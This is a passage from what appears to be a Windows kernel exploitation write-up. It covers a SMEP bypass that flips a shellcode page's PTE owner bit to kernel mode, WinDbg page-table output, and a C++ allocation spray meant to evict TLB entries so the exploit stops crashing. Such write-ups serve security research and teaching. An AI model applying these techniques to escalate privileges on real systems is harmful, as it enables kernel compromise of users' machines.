 Tracing the exploit, we that our SMEP bypass worked and we successfully switched the Owner bit to Kernel mode.
The shellcode address is ```0x27e04bd0000``` and we'll use the ```!pte``` command that shows us the parsed PTE struct:
```s
2: kd> !pte 0000027e04bd0000
                                           VA 0000027e04bd0000
PXE at FFFFBCDE6F379020    PPE at FFFFBCDE6F204FC0    PDE at FFFFBCDE409F8128    PTE at FFFFBC813F025E80
contains 0A00000078189867  contains 0A0000008000A867  contains 0A0000007C58B867  contains 0000000084A92863
pfn 78189     ---DA--UWEV  pfn 8000a     ---DA--UWEV  pfn 7c58b     ---DA--UWEV  pfn 84a92     ---DA--KWEV
```
PXE/PTE/PPE all indicate "U", as it should be, because it's really a user mode address. But the PTE shows "K" because we changed it with our exploit.
Continuing the exploit now will result in an exception: ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY.  
This is a known BSOD that comes from... SMEP protection?!  
![](/assets/images/bof_gs/butwhy_small.jpg)  

After some debugging I got a tip that maybe it's a cache problem. Of course! that's all the point of the [TLB](https://en.wikipedia.org/wiki/Translation_lookaside_buffer).  
The TLB is a small buffer in the CPU that caches page table entries of recently accessed virtual memory addresses.
The problem is that when the ROP chain runs and reaches our shellcode, the shellcode is still in the TLB from when we initialized it. We need to make sure that when the ROP runs, we'll get a miss from the TLB.
We can solve this in two ways:
1. Fill the TLB cache with other addresses
2. Run a cpu instruction that flushes the cache

Doing this the first way involves accessing a large enough amount of addresses between initializing our shellcode and running the exploit. The TLB size is under 100, but I decided to over-do it because it performed better:
```cpp
#define CACHE_SPRAY_SIZE 3000

void * arr[CACHE_SPRAY_SIZE];
    char arr2[CACHE_SPRAY_SIZE];
    for (int i = 0; i < CACHE_SPRAY_SIZE; i++) {
        arr[i] = malloc(4096);
        *(char*)arr[i] = 1;
        arr2[i] = *(char*)arr[i];
        *(char*)arr[i] = arr2[i] + 2;
    }
```
It seems to improve our exploitation chances greatly but still, every once in a while, it would crash. I tried using ```_mm_clflush``` intrinsic on our shellcode address to flush it from cache - didn't help. I tried increasing the spray size - didn't help.
Also making sure our spray happens on all CPU cores didn't help. Moving on to the next option.
